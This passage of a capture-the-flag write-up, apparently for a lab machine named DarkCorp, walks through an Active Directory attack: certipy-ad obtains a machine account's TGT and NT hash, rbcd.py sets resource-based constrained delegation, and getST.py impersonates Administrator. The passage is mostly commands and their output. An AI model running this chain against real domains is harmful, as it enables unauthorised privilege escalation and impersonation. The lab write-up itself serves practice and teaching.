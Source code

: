 and we can auth this pfx directly!!!

```bash
certipy-ad auth -pfx WEB01\$.pfx -dc-ip 172.16.20.1
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'WEB-01.darkcorp.htb'
[*]     Security Extension SID: 'S-1-5-21-3432610366-2163336488-3604236847-20601'
[*] Using principal: 'web-01$@darkcorp.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'web-01.ccache'
[*] Wrote credential cache to 'web-01.ccache'
[*] Trying to retrieve NT hash for 'web-01$'
[*] Got hash for 'web-01$@darkcorp.htb': aad3b435b51404eeaad3b435b51404ee:8f33c7fc7ff515c1f358e488fbb8b675
```

IF we have machine account hash we can grab administrator ccache with RBCD

### RBCD

```bash
rbcd.py -action read -delegate-to 'WEB-01$' darkcorp.htb/'WEB-01$' -hashes ':8f33c7fc7ff515c1f358e488fbb8b675'
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty

rbcd.py -action write -delegate-from 'WEB-01$' -delegate-to 'WEB-01$' -dc-ip 172.16.20.1 darkcorp.htb/'WEB-01$' -hashes ':8f33c7fc7ff515c1f358e488fbb8b675'
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] WEB-01$ can now impersonate users on WEB-01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     WEB-01$      (S-1-5-21-3432610366-2163336488-3604236847-20601)

getST.py -spn 'CIFS/WEB-01.darkcorp.htb' -impersonate 'Administrator' darkcorp.htb/'WEB-01$'@DC-01.darkcorp.htb -hashes ':8f33c7fc7ff515c1f358e488fbb8b675'
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@CIFS_WEB-01.darkcorp.htb@DARKCORP.HTB.ccache
```

and yeah it works

![alt text](../assets/images/darkcorp28.png)
